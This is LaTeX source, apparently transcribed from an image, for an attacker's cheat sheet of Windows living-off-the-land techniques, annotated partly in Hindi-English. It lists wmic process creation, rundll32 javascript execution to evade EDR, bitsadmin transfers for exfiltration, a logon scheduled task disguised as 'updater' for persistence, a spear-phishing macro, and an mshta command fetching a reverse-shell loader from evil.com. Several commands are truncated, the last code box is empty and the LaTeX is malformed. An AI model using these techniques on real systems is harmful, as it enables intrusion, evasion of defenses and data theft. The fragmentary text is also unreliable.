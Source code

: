 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}[leftmargin=*,itemsep=0.5em]
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
wmic process call create
\end{verbatim}
    \end{tcolorbox}
  \item \textbf{Note:}\color{notered} Note: \color{black} Defense-Evasion: EDR detect karega unknown EXE, so we instead \texttt{rundll32.exe javascript:"…";} to execute code in-memory.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
rundll32.exe javascript:"…";
\end{verbatim}
    \end{tcolorbox}
  \item \textbf{Note:}\color{notered} Note: \color{black} Data Exfil/Download: \texttt{bitsadmin /transfer ...} quietly pulls big files over HTTP/S.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
bitsadmin /transfer ...
\end{verbatim}
    \end{tcolorbox}
  \item \textbf{Note:}\color{notered} Note: \color{black} Persistence: \texttt{schtasks /create /sc onlogon /tn updater /tr "powershell -file …"}.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
schtasks /create /sc onlogon /tn updater /tr "powershell -file …"
\end{verbatim}
    \end{tcolorbox}
  \item Spear-phish doc drops macro.
  \item \texttt{mshta http[:]//evil.com/loader.hta} downloads reverse shell.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
mshta http[:]//evil.com/loader.hta
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{rundll32.exe javascript:"\textbackslash\textbackslash..\textbackslash\textbackslash..\textbackslash\textbackslashmshtml,RunHTMLApplication ..."} executes JS in memory.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]

\end{tcolorbox}
\end{enumerate}
\end{document}
